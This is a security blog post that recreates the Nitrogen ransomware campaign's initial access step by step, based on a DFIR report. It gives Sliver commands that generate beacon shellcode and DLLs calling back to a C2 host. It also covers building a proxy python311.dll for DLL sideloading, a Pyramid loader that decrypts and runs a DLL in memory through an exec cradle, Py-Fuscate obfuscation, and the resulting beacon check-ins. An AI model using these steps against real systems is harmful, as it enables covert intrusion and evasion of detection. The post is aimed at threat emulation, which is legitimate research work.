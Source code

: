 ```yaml
---
layout: post
title: Recreating the Nitrogen Campaign From Sliver to BlackCat Ransomware
subtitle: MalDev
tags: [MALDEV]
---
```


This blog post is a recreation of a breach that was covered by the DIFR report [here](https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/)
### tl;dr
A user unknowingly downloaded a malicious version of Advanced IP Scanner from a fake website promoted through Google ads, sparking an eight-day, multi-stage attack. The threat actors leveraged malware like Nitrogen, Sliver, and Cobalt Strike, using obfuscation techniques (Py-Fuscate), lateral movement tools (Impacket, SharpHound), and persistence mechanisms (scheduled tasks, registry modifications). They escalated privileges, dumped credentials, and eventually gained domain admin access. After exfiltrating data using Restic, the attackers deployed BlackCat ransomware via batch scripts, forcing systems to reboot into Safe Mode for encryption. The Time to Ransomware (TTR) was approximately 156 hours.

This blog post goes over how to recreate the initial beachhead payload used.

## The Attack 

In this scenario, the Nitrogen campaign exploited **DLL sideloading** via a malicious `python311.dll`. When the Python program was executed, it loaded this DLL, which in turn sideloaded the malicious code.

**What is DLL sideloading?**
DLL sideloading is an attack technique where adversaries plant a malicious Dynamic Link Library (DLL) in the same directory as a legitimate application. Since applications typically prioritize loading DLLs from their working directory, this allows the malicious DLL to execute instead of the legitimate one.

**Initial Access**  
The breach began with a drive-by download containing a signed Python executable and malicious DLLs. To simulate this in your own testing environment, download and extract the embedded version of Python 3.11.3 on your Windows victim host from the official release page: [Python 3.11.3 Download](https://www.python.org/downloads/release/python-3113/).

### Creating Shellcode :
I used a tool called **Sliver**, similar to what the threat actor used, as my command and control server. Below is how to start an mTLS listener and generated shellcode. When the shellcode is executed on the host it will call back to the C2
```
[server] sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

[server] sliver > generate beacon -f shellcode -m 192.168.1.22

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 22s
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /root/RELAXED_FLARE.bin
```


### Using SharpDllProxy:
I utilized the original `python311.dll` along with shellcode from Sliver and processed it through **SharpDllProxy**. This tool analyzes a legitimate DLL to identify its exported functions and generates a new DLL that acts as a proxy. The proxy DLL secretly loads the original DLL while allowing you to add custom code for additional functionality.
```cmd
C:\Users\MALDEV01\Downloads\SharpDllProxy-master\SharpDllProxy-master\SharpDllProxy\bin\Release\netcoreapp3.1>.\SharpDllProxy.exe --dll .\python311.dll --payload RELAXED_FLARE.bin

[+] Reading exports from C:\Users\MALDEV01\Downloads\SharpDllProxy-master\SharpDllProxy-master\SharpDllProxy\bin\Release\netcoreapp3.1\python311.dll...
[+] Redirected 1628 function calls from python311.dll to tmpE63E.dll
[+] Exporting DLL C source to C:\Users\MALDEV01\Downloads\SharpDllProxy-master\SharpDllProxy-master\SharpDllProxy\bin\Release\netcoreapp3.1\output_python311\python311_pragma.c
```


### SharpDllProxy Output

This process creates two files:
- `tmpE63E.dll`: A renamed copy of the original `python311.dll`.
- `python311_pragma.c`: The source code for a proxy DLL that executes our shellcode while forwarding legitimate function calls to `tmpE63E.dll`.

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/1.png)



## Building A Malicious python311.dll
With the original functionality of `python311.dll` preserved in the temporary DLL (`tmpE63E.dll`) and a generated `C` file that retains this functionality while executing our shellcode, we can compile the `C` code to create a new malicious DLL.

Start by creating a new DLL project. 


![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/2.png)



Paste the contents of `python311_pragma.c` into `dllmain.cpp`. 

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/3.png)


Save and build the solution.

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/4.png)


Rename the newly created DLL to `python311.dll` and place it, along with `tmpE63E.dll` and the shellcode, into the Python folder.

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/5.png)

When `python.exe` calls **our** `python311.dll`, it first executes our shellcode, then forwards all legitimate function calls to `tmpE63E.dll`, which contains the actual code from the original `python311.dll`.

In more sophisticated attacks like the Nitrogen campaign, attackers likely embedded everything within the DLL itself rather than just dropping raw shellcode into a folder. In the blog post they referenced some defense evasion techniques as well. For those interested in learning how to create more advanced DLL payloads, check out [Maldev Academy](https://maldevacademy.com/).

Once `python.exe` is executed, we can monitor for beacons:
```
[server] sliver > beacons

 ID         Name            Transport   Hostname          Username   Operating System   Last Check-In   Next Check-In
========== =============== =========== ================= ========== ================== =============== ===============
 a82e35cd   RELAXED_FLARE   mtls        DESKTOP-M919A7K   MALDEV01   windows/amd64      1m1s            24s
```

The threat actor subsequently deployed Python scripts on the initially compromised machine, using them as loaders for both Sliver and Cobalt Strike. These loaders leveraged tools like **Pyramid** and **Py-Fuscate**: **Pyramid** acted as a server to deliver, decrypt, and execute payloads directly in memory, while **Py-Fuscate** was used to heavily obfuscate the Python code, making analysis and detection more difficult.

## Using Pyramid for In-Memory DLL Injection

Pyramid is a powerful tool that allows us to host a DLL and inject it directly into memory. This process involves several steps, from generating the DLL to setting up the Pyramid server and executing the payload. Let's walk through each step:

First, we'll use Sliver to generate a DLL beacon:
```
[server] sliver > generate beacon -f shared -m 192.168.1.22

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 24s
[*] Implant saved to /opt/ADVISORY_SLEDGE.dll
```

Download and set up Pyramid:
`git clone https://github.com/naksyn/Pyramid.git`

Copy the DLL into the Pyramid Delivery Files folder
```
┌──(kali㉿akali)-[/opt]
└─$ cp ADVISORY_SLEDGE.dll Pyramid/Server/Delivery_files
```

We need to make a small modification to `Pyramid/Server/Modules/pythonmemorymodule.py`. 

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/6.png)

Add `startDll()` on line 385 to ensure the DLL is executed:

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/7.png)

Generate a SSL certificate:
`openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`

Launch the Pyramid server and generate the encoded command. The server will output an encoded script. Save this for the next step:
```
┌──(kali㉿akali)-[/opt/Pyramid/Server]
└─$ python3 pyramid.py -p 443 -ssl -u testuser -pass Sup3rP4ss! -enc "chacha20" -passenc "TestPass1" -server "192.168.1.22" -generate -setcradle pythonmemorymodule.py

[snip]
import base64
import zlib
encoded_script="ENCODED SCRIPT HERE"
decoded_script = zlib.decompress(base64.b64decode(encoded_script.encode())).decode()
exec(decoded_script)
```

Use Py-Fuscate to obfuscate the encoded script:
```
┌──(kali㉿akali)-[/opt/Py-Fuscate]
└─$ python3 py_fuscate.py -i input.py -o output.py -c 50
```

Go to the python 3.11.3 folder you downloaded earlier. Save the obfuscated Python code to a file (e.g., `py.py`) on the Windows host. When executed, it will establish a connection back to the Sliver server:

![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/8.png)


![MALDEV](https://raw.githubusercontent.com/0xZon/0xZon.github.io/refs/heads/main/assets/img/rnscs/9.png)

This process demonstrates a sophisticated method of injecting a DLL payload into memory using Pyramid, bypassing traditional file-based detection methods. By leveraging Python's embedded distribution and obfuscation techniques, we create a stealthy execution environment for our payload. 
